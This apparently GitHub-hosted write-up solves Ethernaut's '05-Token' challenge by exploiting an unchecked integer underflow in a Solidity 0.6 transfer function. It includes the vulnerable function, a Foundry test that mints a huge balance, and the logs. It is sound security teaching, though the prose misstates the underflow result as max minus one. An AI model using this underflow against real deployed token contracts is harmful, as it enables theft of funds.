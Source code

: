 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `05-Token` Challenge, You Should Try To find a Way to Mint Yourself Alot of Tokens (kinda).

`05-Token` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)


<br>

# How did i Complete This Challenge?

This One is Simple. Since the Solidity Version of the Codebase is `^0.6.0`, it's Vulnerable to `Overflow/Underflow`, Unless We Use `SafeMath` Library from Openzeppelin Which we Clearly Didn't.

Now Lets take a Look at `transfer` function:


```
    function transfer(address _to, uint256 _value) public returns (bool) {
            require(balances[msg.sender] - _value >= 0);
            balances[msg.sender] -= _value;
            balances[_to] += _value;
            return true;
    }
```


first of all We dont Check if the `msg.sender` has enough tokens to transfer (something like this `require(balances[msg.sender] >= _value);`).

and lets say Attacker has Two External Owned Accounts (user1 and user2). 

Attacker Calls the `transfer` function with `user1` and Sends `10e18` to `user2`. (`msg.sender` == `user1`, `_to` == `user2`, `_value` == `10e18`)

Lets go Through the `transfer` function Line by Line with Above Values and Parameters:

```javascript
    require(balances[msg.sender] - _value >= 0);
    require(0 - 10e18 >= 0);
```

Since We Use `^0.6.0` Solidity Version, the Math Equation of `0 - 10e18` will underflow and the result will be: `require(type(uint256).max - 1  >= 0)` which will clearly pass.

then Lets Take a Look at Next Two Lines:

```javascript
    balances[msg.sender] -= _value;
  // 0 -= 10e18 will result in: type(uint256).max - 1 (user1 balance)

    balances[_to] += _value;
  // 0 += 10e18 will result in: 10e18 (user2 balance)
```

And This is How You Can Solve `05-Token` Challenge from Openzeppelin Ethernaut!

by the Way i Also Wrote Test for it, named as `testTransferfunction` inside the `Token.t.sol` file:

```javascript
    function testTransferfunction() external {
        vm.startPrank(userOne);
        token.transfer(userTwo, 10e18);
        assertEq(token.balanceOf(userTwo), 10e18);
        assertEq(token.balanceOf(userOne), (type(uint256).max - 10e18) + 1);
        vm.stopPrank();

        console.log("Balance of User1: ", token.balanceOf(userOne));
        console.log("Balance of User2: ", token.balanceOf(userTwo));
    }
```

You Can Run the Test With Following Command in Your Terminal: (Required to Have Foundry Installed.)

```javascript
    forge test --match-test testTransferfunction -vvvv
```

Output of the `Logs`:

```javascript
    Logs:
        Balance of User1:  115792089237316195423570985008687907853269984665640564039447584007913129639936
        Balance of User2:  10000000000000000000
```
